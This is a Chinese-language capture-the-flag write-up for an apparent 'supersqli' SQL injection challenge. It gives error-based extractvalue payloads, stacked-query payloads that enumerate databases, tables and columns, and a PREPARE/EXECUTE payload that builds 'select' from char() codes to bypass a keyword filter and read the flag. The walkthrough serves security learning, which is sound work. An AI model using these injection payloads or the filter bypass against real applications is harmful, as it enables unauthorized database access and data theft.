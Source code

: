   ![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732253721955-bf2c26bb-afeb-4960-b19f-9d9d2c2028e6.png)

被过滤了并且双写也没用

于是尝试报错注入

```sql
1'and (extractvalue(1,concat(0x5c,version(),0x5c)))#     //爆出数据库版本
1'and (extractvalue(1,concat(0x5c,database(),0x5c)))#    //爆出数据库名字
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732255265827-b155d32e-e796-4d1a-84d0-a652abc38113.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732255287484-2650c981-a145-4f7e-8a52-a8940fb997c8.png)

像尝试后续接着爆表 都被过滤了

于是尝试堆叠注入

```sql
1';show databases;#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732255458978-2f074510-bf7b-4f9f-8c6c-5082deaf9c53.png)

根据题目猜测flag在supersqli库里面 尝试爆表

```sql
1';show tables;#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732255648524-db759fc0-ebd3-4ab2-b3fa-e32fd229603b.png)

接着根据表名爆出字段

```sql
1';show columns from `1919810931114514`#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732255729106-2e2218e3-5a4e-46a8-ac4d-efbcb2429065.png)

发现flag 所以我们得想办法读取flag

```sql
1';select 1,2,group_concat(flag) from `1919810931114514`;#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732255948867-6bd3b6b1-e96b-4604-8b66-714bce0b42f0.png)

但是由于select被过滤了 所以这方法行不通 

于是利用预处理命令 加上char(ascii码)拼接关键字select 绕过过滤

```sql
1';PREPARE w from concat(char(115,101,108,101,99,116), '* from `1919810931114514`');EXECUTE w;#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732257028760-58cca1b2-c115-46f9-8bc8-7fdd3a1c9190.png)

得到flag



